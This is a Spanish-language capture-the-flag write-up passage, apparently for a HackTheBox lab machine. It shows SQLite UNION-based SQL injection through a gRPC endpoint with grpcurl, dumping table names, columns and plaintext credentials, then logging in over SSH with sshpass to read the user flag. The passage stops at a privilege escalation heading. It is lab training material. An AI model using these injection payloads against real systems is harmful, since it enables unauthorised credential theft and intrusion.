 {% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md" %}

El primer paso a realizar, será lograr determinar el total de columnas que dispone le base de datos, para así lograr inyectar el payload. En este caso, se confirma que la base de datos solamente dispone de una columna con una versión de `SQLite 3.31.1`.

```bash
❯ grpcurl -format text -d 'id: "435 UNION SELECT 1;"' -H "token: $TOKEN" -plaintext 10.10.11.214:50051 SimpleApp.getInfo
message: "1"

❯ grpcurl -format text -d 'id: "435 UNION SELECT sqlite_version();"' -H "token: $TOKEN" -plaintext 10.10.11.214:50051 SimpleApp.getInfo
message: "3.31.1"
```

A través de la siguiente inyección SQL, comprobamos las tablas presentes en la base de datos. En el resultado obtenido, verificamos la existencia de las tablas `accounts`y `messages`.

```bash
❯ grpcurl -format text -d "id: \"435 UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';\"" -H "token: $TOKEN" -plaintext 10.10.11.214:50051 SimpleApp.getInfo
message: "accounts,messages"
```

Enumeraremos las columnas presentes en la tabla `accounts`, en la cual se nos muestran las columnas `username`y `password`.

```bash
❯ grpcurl -format text -d "id: \"435 UNION SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('accounts');\"" -H "token: $TOKEN" -plaintext 10.10.11.214:50051 SimpleApp.getInfo
message: "username,password"
```

Comprobaremos los datos de las columnas presentes en la tabla `accounts`. En el resultado obtenido, comprobamos que nos aparecen las credenciales del usuario `admin` y del usuario `sau`.

```bash
❯ grpcurl -format text -d 'id: "435 UNION SELECT GROUP_CONCAT(username || \":\" || password) FROM accounts;"' -H "token: $TOKEN" -plaintext 10.10.11.214:50051 SimpleApp.getInfo
message: "admin:admin,sau:HereIsYourPassWord1431"
```

Probaremos de conectarnos al equipo mediante `SSH`, una vez comprobado el acceso verificaremos la flag **user.txt**.

```bash
❯ sshpass -p HereIsYourPassWord1431 ssh sau@10.10.11.214
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19
sau@pc:~$ cat user.txt 
bf851c74a***********************
```

## Privilege Escalation
